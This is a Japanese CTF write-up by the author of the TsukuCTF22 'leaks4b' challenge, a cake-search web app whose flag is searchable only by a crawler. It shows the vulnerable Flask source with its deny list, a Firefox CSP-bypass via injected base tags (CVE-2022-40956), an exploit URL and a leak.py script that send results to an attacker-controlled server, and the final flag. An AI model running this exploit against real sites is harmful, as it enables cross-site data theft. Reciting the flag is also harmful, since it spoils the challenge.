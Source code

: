 # leaks4b

## 問題文
ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)  

[leaks4b.zip](files/leaks4b.zip)  

## 難易度
**hard**  

## 作問にあたって
趣味CTFということもあり、キモイ問題を出しても良いでしょうということで1day問を出しました。  
Mozillaに早めに報告してしまったので、0day問ではなくなってしまいました(CVE-2022-40956)。  
CSSiやReDoSを用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefoxの1day以外で解かれた方がいましたらWriteupなどで教えてくれると嬉しいです。  
ちなみにMiscのsoderはこの非想定解から生まれた問題です。  
そして4bは嘘です。  

## 解法
URLとソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースのapp.pyを見ると、以下のようであった。  
```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~
@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""

~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```
`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookieがフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意のHTMLタグを差し込め、XSSによってクローラのcookieを取得できそうだがhttpOnlyであるようだ。  
さらにcssi_sanitizerと、とんでもなく厳しいCSPにより守られており、XSSは愚かCSSiも難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoSの可能性もあることに気づく。  
幸いCSPにimgの制限はないため、自身のドメインをsrcに設定したimgタグを挿入し、アクセスの有無を確認することでReDoSの応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかしcssi_sanitizerや文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法であるbaseタグを挿入すると、CSPでnoneであるはずなのになぜかimgのsrcをbaseのhrefへ問い合わせることがわかる。  
これによって、CSPをバイパスしてimgの相対パスがリークできる。  
imgの画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現とbaseタグをcssi_sanitizerを躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。  
```
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```
baseタグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下のleak.pyで行う。  
```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```
実行し、手動でリークした文字を追加していくとflagが得られた(自動化もできるが手動でも可能なようなflagになっている)。  

## TsukuCTF22{cakeuma}
